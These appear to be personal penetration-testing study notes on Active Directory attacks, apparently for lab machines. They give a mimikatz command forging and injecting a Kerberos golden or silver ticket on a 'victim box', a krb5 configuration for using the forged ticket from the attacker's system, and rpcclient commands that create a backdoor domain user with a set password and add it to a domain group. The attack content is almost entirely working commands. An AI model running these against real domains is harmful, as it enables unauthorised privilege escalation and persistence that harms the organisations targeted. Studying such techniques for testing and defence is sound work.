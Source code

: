 ```bash

# On Victim Box:
.\mimikatz.exe "kerberos::golden /sid:<sid> /domain:<domain> /ptt /target:<hostname> /service:<service> /rc4:<ntlm> /user:Administrator"
	klist     # verify


3. Create /etc/krb5user.conf file #(if attempting to interact from our system)
sudo vim /etc/krb5user.conf
[libdefaults]    
        default_realm = <DOMAIN>   
        kdc_timesync = 1    
        ccache_type = 4    
        forwardable = true    
        proxiable = true    
    rdns = false    
    dns_canonicalize_hostname = false    
        fcc-mit-ticketflags = true    
    
[realms]            
        <DOMAIN> = {    
                kdc = <dc_hostname>.<domain>  
        }    
    
[domain_realm]    
        .<domain> = <DOMAIN>

```

why do we need the conf file?
	how i understand it is because the ticket exists on OUR kali system, so we need this conf to interact with Kerberos realms...

Example silver ticket [[Nagoya|Nagoya]]
	with the ticket now cached, we could authenticate to the service using kerberos authentication (usually a -k)
	need chisel as well? might need to specify 127.0.0.1



#### Domain Trust Abuse
Enumeration and attacks can be found here: [[Domain Trusts]]

#### Abusing RPC
https://www.hackingarticles.in/active-directory-enumeration-rpcclient/

```bash
queryuser <user>
enumprivs

#Creating domian user
	createdomuser <user>
	setuserinfo2 <user> 24 Password123!

#Add user to domain group
	METHOD 1:
		addmemtogroup "<group>" "<user>"

	METHOD 2:
	#retrieve RIDs
		lookupnames "<group>"        # record RID
		lookupnames "<user>"         # record RID
	#convert RIDs to hex
		printf '%x\n' <RID>
	#add user to group
```